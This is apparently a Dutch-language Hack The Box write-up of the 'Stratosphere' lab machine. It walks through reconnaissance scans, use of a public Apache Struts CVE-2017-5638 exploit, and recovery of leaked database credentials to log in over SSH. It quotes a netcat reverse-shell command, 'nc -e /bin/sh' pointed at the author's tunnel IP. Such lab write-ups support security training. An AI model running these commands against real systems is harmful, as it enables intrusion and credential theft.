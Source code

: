 # Stratosphere

## Low privilege

Eerst begin ik met een Nmap scan:

``` nmap -sV -p- -T5 -oN 10.10.10.64.nmap```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/1.PNG" />

<ul>
	<li>sV: Probeer versie namen te vinden</li>
	<li>-p-: Scan alle TCP poorten </li>
	<li>-T5: Scan snel en aggresief</li>
	<li>-oN: Save output als Nmap formaat </li>
</ul>


Er is een webserver dus draai ik meteen een dirbsearch scan:

```python3 dirsearch.py -u http://10.10.10.64 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e php -t 25 ```

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/2.PNG" />
Argumenten spreken voor zich neem ik aan.

Wanneer ik naar /Monitoring navigeer word ik omgeleid naar http://10.10.10.64/Monitoring/example/Welcome.action. Ik wist niet precies wat er bij .action bestanden hoorden dus had ik dat opgezocht op Google.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/3.PNG" />

Ik lees Struts, dus weet ik genoeg.

```searchsploit -x linux/webapps/41570.py ```

Dit is een Python script dat CVE-2017-5638 probeert te exploiteren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/4.PNG" />

Hoppa, remote code execution! Het is nu de bedoeling dat ik een shell krijg, en dat is niet zo moeilijk. In plaats van ```echo "Gio" ``` als commando te gebruiken gebruik ik een commando waarmee ik dus een shell kan krijgen. De commando die ik meestal gebruik is: ```nc -e /bin/sh [Mijn tunnel ip] 1234 ```. Maar dit werkt niet, sterker nog geen één reverse shell commando werkt, dit kom waarschijnlijk omdat de script niet kan blijven hangen maar een error gooit. 

Ongeveer 2 uur later is mijn irritatie grens bereikt en probeer ik te kijken of er misschien andere interesante dingen zijn. Het eerste wat ik dan doe is kijken of de webserver database credentials lekt en met deze proberen in te loggen. Ik zie (via het Python script) dat er een ``db_connect`` bestaat, en deze bevatten de database credentials :).

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/5.PNG" />

Oké vet, maar ik heb geen shell dus is het niet echt mogelijk om een interactieve MySQL shell te krijgen. Na een tijdje door de man pagina van MySQL te hebben gebladerd kwam ik iets heel interesant tegen:

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/6.PNG" />

Hierdoor is het mogelijk om statements uit te voeren zonder een interactieve shell te hebben. Dus, ik weet de credentials van de database en ik heb een manier gevonden om statements uit te voeren.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/7.PNG" />

Dit ziet er héél lekker uit. Hier zie ik een gebruiker genaamd Richard en zijn wachtwoord. Dit zijn vast ook zijn SSH credentials.

<img src="https://github.com/lilgio/hackthebox/blob/master/images/stratosphere/8.PNG" />

Boom, ez lyfe.

## Privilege escalation

